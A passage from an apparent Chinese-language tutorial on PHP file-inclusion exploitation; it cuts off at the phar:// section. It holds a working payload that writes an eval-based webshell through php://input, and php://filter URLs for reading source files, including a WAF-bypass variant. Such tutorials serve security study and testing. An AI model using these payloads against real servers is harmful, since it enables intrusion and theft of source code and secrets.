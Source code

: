 <a class="reference-link" name="php://input%EF%BC%88%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC%EF%BC%89"></a>**php://input（写入木马）**

利用条件：
1. allow_url_include = On。
1. 对allow_url_fopen不做要求。
姿势：

```
fileinclude.php?file=php://input

POST:
&lt;?php fputs(fopen('hack.php','w'),'&lt;?php @eval($_POST[v])?&gt;');?&gt;
```

执行完，同目录下便生成了马儿：

[![](https://p1.ssl.qhimg.com/t01b3723bb5ec0ac1c5.png)](https://p1.ssl.qhimg.com/t01b3723bb5ec0ac1c5.png)

用shell管理工具，比如蚁剑等便能成功连接。

<a class="reference-link" name="php://filter"></a>**php://filter**

元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。

利用条件：
1. 对allow_url_include不做要求。
1. 对allow_url_fopen不做要求。
姿势：

```
fileinclude.php?file=php://filter/read=convert.base64-encode/resource=index.php

另外一种：fileinclude.php?file=php://filter/convert.base64-encode/resource=index.php
//效果跟前面的一样，少了read等关键字。在绕过一些waf时也许有用。
```

通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01bb043f5ec0891c18.png)

其中`PD9waHAKZWNobyAiSGVsbG8gV29ybGQiOwo/Pg==`base64解码出来为如下，刚好是我同目录下的index.php的文件源码：

```
&lt;?php
echo "Hello World";
?&gt;
```

**<a class="reference-link" name="phar://"></a>phar://**

这个就是php解压缩包的一个伪协议，不管后缀是什么，都会当做压缩包来解压。

利用条件：
1. php版本大于等于php5.3.0
1. 对allow_url_include不做要求。
1. 对allow_url_fopen不做要求。
姿势：

